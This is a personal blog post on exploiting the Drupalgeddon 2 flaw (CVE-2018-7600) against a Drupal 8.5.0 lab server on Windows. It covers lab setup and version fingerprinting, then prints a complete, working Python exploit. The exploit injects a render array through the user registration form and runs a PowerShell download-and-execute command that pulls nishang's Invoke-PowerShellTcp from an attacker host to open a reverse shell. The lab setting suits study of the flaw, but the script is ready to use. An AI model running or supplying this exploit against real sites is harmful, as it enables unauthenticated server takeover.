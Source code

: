 ```yaml
---
layout: post
title: Exploiting Drupalgeddon 2 on Windows
tags: [Security, Hacking]
---
```

In late March of this year the Drupalgeddon 2 vulnerability was disclosed. Given the CVE 2018-7600 the vulnerability was an unauthenticated remote code execution flaw in Drupal instances covering versions < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1. So basically every Drupal instance at the time and with around a million websites online running Drupal this flaw is huge. 

In simple terms, the vulnerability is an error in the way that Drupal processes AJAX form requests with the use of rendered arrays. Essentially a malicious rendered array is injected into a form that can be accessed by an unauthenticated user. The most common and vulnerable form that accepts malicious rendered arrays is the user registration form. For more on the technical details of the vulnerability and how it works vist [this site](https://research.checkpoint.com/uncovering-drupalgeddon-2/) by checkpoint research for details.

There are a few proof of concepts floating around on the internet such as [this one](https://github.com/dreadlocked/Drupalgeddon2) written in ruby, as well as a [metasploit module](https://www.rapid7.com/db/modules/exploit/unix/webapp/drupal_drupalgeddon2), but they all seemed to target Linux. I was curious if this flaw could be exploit on Windows - so I built a lab to test it out. 

## Building the lab
I built my Drupal lab using Drupal 8.50 (released 7 March 2018), so this release is just before CVE 2018-7600 landed. I utilised Windows Server 2012 R2 as the server. The overall process for getting Drupal to run on Windows is a bit tricky, however [this website](https://www.xenyo.com/blog/drupal-8-on-windows-iis-mssql-and-php) does a fantastic job of walking you through all the little steps. The only additional things I needed to do to get it running are detailed below:

### PHP Manager
I was unable to get PHP Manager installed following the directions on the xenyo and there were certificate errors using Web Platform Installer 5.0. However, downloading and installing PHP Manager from this [GitHub repository](https://github.com/RonaldCarter/PHPManager/releases) did the trick.

### Open Drupal to External Connections
Once I was up and running with my Drupal instance, I could easily access it via localhost on the Windows Server. However, I was having issues connecting to it via my attacking Kali machine. The trick is in the settings.php file. The original file will have something like this located near the end of the file:
{% highlight bash %}
$settings['trusted_host_patterns'] = array(
    '^localhost$',
);
{% endhighlight %}
You need to add your server's IP address to this array to allow you to access your Drupal instance externally. So mine looks like:
{% highlight bash %}
$settings['trusted_host_patterns'] = array(
    '^localhost$','^192.168.206.129$'
);
{% endhighlight %}

## Exploiting CVE 2018-7600
The first step is determining if your Drupal instance is vulnerable. This means you need to identify the version number of the installation. I tried a number of tools including droopescan and drupwn, but these gave me differing results.
![](/img/drupal/droopescan.png)
![](/img/drupal/drupwn.png)
In the end, the most reliable response I got was from my nmap scan.
![](/img/drupal/nmap.png)
However, in a production environment this header may be removed, so you can get additional information from accessing the README.txt or LICENSE.txt files (again, this should probably be removed in production).

I crafted my exploit in python and set my commands to download nishang's Invoke-PowerShellTCP script to get a reverse shell on the box. My exploit that I ran was:
{% highlight python %}
#!/usr/bin/ python3
import sys
import requests

#######################################################
# Simple Exploit for CVE 2018-7600 (Drupalgeddon 2)
# Usage: python3 drupalgeddon.py http://target-address
#######################################################

target = sys.argv[1]

command = '''powershell -c IEX (New-Object Net.WebClient).downloadstring('http://192.168.206.133:8000/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress 192.168.206.133 -Port 8081'''

url = target + '/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': command }

print("Sending Payload...")

r = requests.post(url, data=payload)

print("Payload Sent.")
{% endhighlight %}

I simply executed my payload.
![](/img/drupal/payload.png)
And got a reverse shell.
![](/img/drupal/shell.png)

So, in the end there is no difference for Windows or Linux when executing Drupalgeddon 2. You just need to use the specific commands for your target. The shocking thing about Drupalgeddon 2 is how easy it is to exploit. My exploit is not complex and once it was written it was a simple case of point and shoot. 

